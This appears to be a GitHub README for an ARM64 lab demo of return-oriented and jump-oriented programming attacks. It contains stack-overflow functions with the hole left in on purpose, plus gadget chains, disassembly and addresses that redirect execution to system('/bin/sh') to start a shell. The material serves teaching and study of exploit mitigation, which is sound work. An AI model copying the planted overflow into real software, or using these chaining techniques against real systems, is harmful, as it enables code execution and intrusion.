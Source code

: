 ## Return-oriented programming (ROP) and Jump-oriented-programming (JOP) attack examples
When the stack overflow occur, this demo show how to use the ROP and JOP to start shell with the system api.
### Platform
Hardware: [Neoverse N1 System Development Platform (N1SDP)](https://community.arm.com/developer/tools-software/oss-platforms/w/docs/457/n1sdp-getting-started-guide) 
<br>
OS: Ubuntu 18.04.4 LTS 
<br>
GCC: gcc version 7.5.0 

### Structure
```bash 
├── Makefile
├── jop           # JOP exe       
├── jop.asm       # JOP assembly dump file 
├── jop.c         # JOP source code 
├── jop.data      # JOP input binary data 
├── jop.data.gen  # JOP input binary data generate script
├── rop           # ROP exe 
├── rop.asm       # ROP assembly dump file
├── rop.c         # ROP source code 
├── rop.data      # ROP input binary data  
└── rop.data.gen  # ROP input binary data generate script
```
### system() API address 
Add the below code to make sure the system() api linking into the binary: 
```C
void rop_symbol()
{
	system("/bin/ls"); 
}
```
```assembly
	system("/bin/ls"); // to make the system link to the binary
  400404:	90000280 	adrp	x0, 450000 <_nl_locale_subfreeres+0x1b8>
  400408:	9116e000 	add	x0, x0, #0x5b8
  40040c:	940019b7 	bl	406ae8 <__libc_system>
```
system() api address is **0x406ae8**
### Useful string "/bin/sh" address
According to the glibc do_system source code
```C
      /* Exec the shell.  */
      (void) __execve (SHELL_PATH, (char *const *) new_argv, __environ);
      _exit (127);

  406acc:	d0000240 	adrp	x0, 450000 <_nl_locale_subfreeres+0x1b8>
  406ad0:	b900067f 	str	wzr, [x19, #4]
  406ad4:	91344000 	add	x0, x0, #0xd10
  406ad8:	9400475e 	bl	418850 <__execve>
```
String "/bin/sh" can be found at address **0x450d10**
### ROP example
```C
void rop_bad_func()
{
	char data[16] = {0};
	unsigned long long u64 = 0;
	int fd = 0;
	fd = open("./rop.data",O_RDONLY);
	read(fd,&u64,512);
}
```

#### Useful gadgets
* gadget 1: main
```
	rop_bad_func();
  40046c:	97ffffec 	bl	40041c <rop_bad_func>
	return 0;
  400470:	52800000 	mov	w0, #0x0                   	// #0
}
  400474:	a8c17bfd 	ldp	x29, x30, [sp], #16
  400478:	d65f03c0 	ret
  
```
Set X30 = next gadget address 

* gadget 2: __deregister_frame_info_bases
```
  44f02c:	f9400bf3 	ldr	x19, [sp, #16]
  44f030:	a8c37bfd 	ldp	x29, x30, [sp], #48
  44f034:	d65f03c0 	ret
```
Set X19 from stack,the value is the address string "/bin/sh", and it will set to X0 at next gadget
<br>
Set X30 = next gadget address 
* gadget 3: __deregister_frame_info_bases
```
  44f080:	aa1303e0 	mov	x0, x19
  44f084:	f9400bf3 	ldr	x19, [sp, #16]
  44f088:	a8c37bfd 	ldp	x29, x30, [sp], #48
  44f08c:	d65f03c0 	ret
 ```
Set X0 = X19
<br>
Set X30 = system() api address from stack
 #### Calling flow
 
 ```
 rop_bad_func 
   -->(0x400474) main 
      --> (0x44f02c)__deregister_frame_info_bases 
         --> (0x44f080)__deregister_frame_info_bases 
	    --> system 
	       --> system 
	         --> ...
 ```
### JOP examples
```
void jop_bad_func()
{
	jop_func_t func = NULL;
	char data[16] = {0};
	unsigned long long u64 = 0;
	int fd = 0;

	fd = open("./jop.data",O_RDONLY);
	func = jop_symbol;
	read(fd,&u64,512);
	func();
}
```
#### Useful gadgets
* gadget 1: jop_bad_func
```
	func();
  400468:	f9401fa0 	ldr	x0, [x29, #56]
  40046c:	d63f0000 	blr	x0
```
Set X0 = gadget 2 address from stack 

* gadget 2: _dl_runtime_profile
```
  441d84:	a94307a0 	ldp	x0, x1, [x29, #48]
  441d88:	6d4407a0 	ldp	d0, d1, [x29, #64]
  441d8c:	6d450fa2 	ldp	d2, d3, [x29, #80]
  441d90:	f94077be 	ldr	x30, [x29, #232]
  441d94:	910003bf 	mov	sp, x29
  441d98:	f94003bd 	ldr	x29, [x29]
  441d9c:	910403ff 	add	sp, sp, #0x100
  441da0:	d61f03c0 	br	x30
```
Set X0 = system() address 
<br>
Set X30 = gadget 3 address 

* gadget 3: _dl_runtime_profile
```
  441cf4:	aa0003f0 	mov	x16, x0
  441cf8:	a94607a0 	ldp	x0, x1, [x29, #96]
  441cfc:	a9470fa2 	ldp	x2, x3, [x29, #112]
  441d00:	a94817a4 	ldp	x4, x5, [x29, #128]
  441d04:	a9491fa6 	ldp	x6, x7, [x29, #144]
  441d08:	6d4a07a0 	ldp	d0, d1, [x29, #160]
  441d0c:	6d4b0fa2 	ldp	d2, d3, [x29, #176]
  441d10:	6d4c17a4 	ldp	d4, d5, [x29, #192]
  441d14:	6d4d1fa6 	ldp	d6, d7, [x29, #208]
  441d18:	a9407bbd 	ldp	x29, x30, [x29]
  441d1c:	910403ff 	add	sp, sp, #0x100
  441d20:	d61f0200 	br	x16
```
Set X16 = X0 (system address)
<br>
Set X0 = "/bin/sh" string address
#### Calling flow
```
jop_bad_func 
  --> (0x441d84)_dl_runtime_profile 
    --> (0x441cf4)_dl_runtime_profile 
       --> system
```
 

